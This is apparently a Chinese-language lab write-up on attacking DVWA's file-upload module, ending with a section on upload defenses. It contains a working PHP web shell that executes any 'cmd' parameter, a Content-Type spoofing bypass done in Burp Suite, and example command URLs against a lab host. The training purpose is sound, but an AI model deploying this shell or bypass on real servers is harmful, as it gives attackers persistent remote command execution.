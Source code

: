 ## 一、Web Shell
- 绕过DVWA"Upload"模块的上传限制，上传一个恶意的PHP脚本(Web Shell)，且利用Web Shell在服务器上执行任意命令
## 二、攻击流程
### 2.1 payload制作
- kali桌面创建`shell.php`,意思是如果URL中有`cmd`的参数，就把这个参数的内容当成一个系统命令来执行，并把结果显示页面
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```
### 2.2 渗透
- 打开Upload界面，设置代理，开启Burp Suite，开启拦截
- 上传`shell.php`
- Burp Suite中找到请求头中`Content-Type`行，因为上传的是PHP文件，类型是`application/x-php`，将其改成`image/jpeg`，再Forward
- 请求头内容：<img width="518" height="657" alt="image" src="https://github.com/user-attachments/assets/de4145bf-b0bb-4cd0-884b-d771e686e8d6" />
### 2.3 控制
- 访问后门：`http://192.168.174.130/dvwa/hackable/uploads/shell.php`
- 查看当前用户：`http://192.168.174.130/dvwa/hackable/uploads/shell.php?cmd=whoami`
- 列出当前目录文件：`http://192.168.174.130/dvwa/hackable/uploads/shell.php?cmd=ls -la`
## 三、总结
- 结果：<img width="697" height="93" alt="image" src="https://github.com/user-attachments/assets/d10341f5-6104-4984-9b40-06e89b1f9886" />
- 上传漏洞是最高危的漏洞之一：
   - 持久控制：之前的命令注入，只能执行一条命令，且还要绕过过滤，而上传一个Web Shell后，拥有一个持久化的后门
   - 权限提升：Web服务通常不用最高权限(root)运行，但一旦有了立足点(Web Shell)，就可以去寻找服务器上其他的系统漏洞，尝试把自己从一个普通用户(如`www-data`)提升为`root`管理员
   - 内网渗透：这台Web服务器可能只是公司网络的一台机器，是渗透的起点
   - 难以检测：服务器上看起来就是个普通文件/图片
- 防御策略：
   - 文件类型
   - 文件后缀检查(白名单策略)：规定“只许上传什么”。其他后缀拒绝，若黑名单，则会出现，如用`.php5`绕过对`.php`的禁用
   - 文件内容检查：检查文件头部的几个字节(魔术字节)，如一个JPEG图片文件，开头`FF D8 FF`，一个PHP文件，开头`<?php`，防止攻击者把一个`shell.php`改名为`shell.jpg`蒙混过关
   - 文件重命名：文件上传成功时，不用原始文件名，而是由服务器生成随机、无意义的文件名保存，如攻击者上传了`shell.php`，但服务器保存为`xzl.jpg`，若文件被访问，也只会被当问图片，里面的PHP代码不会被执行
   - 独立的、不可执行的存储位置：如网站代码在`/var/www/html`，上传的文件在`/var/uploads`，且Web服务器被明确配置为`/var/uploads`目录下的任何文件无法作为脚本执行
